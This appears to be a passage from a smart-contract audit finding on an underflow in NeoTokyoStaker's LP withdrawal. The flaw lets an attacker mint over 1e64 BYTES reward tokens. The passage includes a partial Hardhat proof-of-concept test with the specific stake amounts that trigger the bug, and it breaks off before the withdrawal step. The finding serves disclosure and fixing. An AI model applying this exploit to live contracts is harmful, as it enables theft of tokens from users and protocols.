 NeoTokyoStaking allows to stake and withdraw LPs. User can stake multiple times on same position which simply results in extended lock time and user can withdraw all of these LPs once lock time is passed.

There is a scenario when withdrawing LPs results in overflow of [lpPosition.points](https://github.com/code-423n4/2023-03-neotokyo/blob/main/contracts/staking/NeoTokyoStaker.sol#L1627). After withdraw if attacker calls `getRewards()` then attacker will get more than 1e64 BYTES tokens as reward.

### Proof of Concept

Affected code block: [NeoTokyoStaker.sol#L1622-L1631](https://github.com/code-423n4/2023-03-neotokyo/blob/main/contracts/staking/NeoTokyoStaker.sol#L1622-L1631)

Affected line: [L1627](https://github.com/code-423n4/2023-03-neotokyo/blob/main/contracts/staking/NeoTokyoStaker.sol#L1627)

From below POC, you can see that Alice is staking twice and some specific amounts which will trigger underflow when Alice withdraw LP. Once staked LPs are unlocked, Alice can withdraw her LPs and call `getReward()` to trigger minting of more than 1e64 BYTES tokens.

Below test can be added in `NeoTokyoStaker.test.js` test file.

```js
		it('Unexpected rewards minting due to underflow of "points"', async function () {
			// Configure the LP token contract address on the staker.
			await NTStaking.connect(owner.signer).configureLP(LPToken.address);
			const amount1 = ethers.utils.parseEther('10.009')
			const amount2 = ethers.utils.parseEther('11.009')
			const lockingDays = 30
			
			// Alice stake amount1 LPs for 30 days.
			await NTStaking.connect(alice.signer).stake(
				ASSETS.LP.id,
				TIMELOCK_OPTION_IDS[lockingDays],
				amount1,
				0,
				0
			);

			// Alice stake amount2 LPs for 30 days.
			await NTStaking.connect(alice.signer).stake(
				ASSETS.LP.id,
				TIMELOCK_OPTION_IDS[lockingDays],
				amount2,
				0,
				0
			);

			const priorBlockNumber = await ethers.provider.getBlockNumber();
			const priorBlock = await ethers.provider.getBlock(priorBlockNumber);
			let aliceStakeTime = priorBlock.timestamp;
			
			// Bob stake 10 LPs for 30 days
			await NTStaking.connect(bob.signer).stake(
				ASSETS.LP.id,
				TIMELOCK_OPTION_IDS[lockingDays],
				ethers.utils.parseEther('10'),
				0,
				0
			);

			// Set time to unlock staked lp
			await ethers.provider.send('evm_setNextBlockTimestamp', [
				aliceStakeTime + (60 * 60 * 24 * lockingDays)
			]);
			
```